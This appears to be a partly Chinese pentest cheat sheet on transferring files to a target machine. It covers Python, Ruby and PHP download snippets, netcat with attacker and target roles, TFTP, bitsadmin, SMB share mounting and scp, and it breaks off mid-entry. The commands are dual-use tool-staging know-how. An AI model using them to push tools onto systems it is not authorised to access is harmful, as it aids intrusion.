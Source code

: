 Python 
```
#!/usr/bin/python 
import urllib2 
u = urllib2.urlopen('http://domain/file') 
localFile = open('local_file', 'w') 
localFile.write(u.read()) 
localFile.close()
```
>执行：python test.py

Ruby 
```
#!/usr/bin/ruby
require 'net/http'
Net::HTTP.start("www.domain.com") { |http|
r = http.get("/file")
open("save_location", "wb") { |file|
file.write(r.body)
}
}
```
>执行：ruby test.rb

PHP 
```
<?php
$url  = 'http://www.example.com/file';
$path = '/path/to/file';
$ch = curl_init($url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
$data = curl_exec($ch);
curl_close($ch);
file_put_contents($path, $data);
?>
```
>执行：php test.php

NC 
attacker 
```
cat file | nc -l 1234
```
target
```
nc host_ip 1234 > file
```
FTP
```
ftp 127.0.0.1 username password get file exit
```
TFTP 
```
tftp -i host GET C:%homepath%file location_of_file_on_tftp_server
```
Bitsadmin 
```
bitsadmin /transfer n http://domain/file c:%homepath%file
```
Window 文件共享 
```
net use x: \127.0.0.1\share /user:example.comuserID myPassword
```
SCP 
本地到远程 
```
scp file user@host.com:/tmp
```
远程到本地 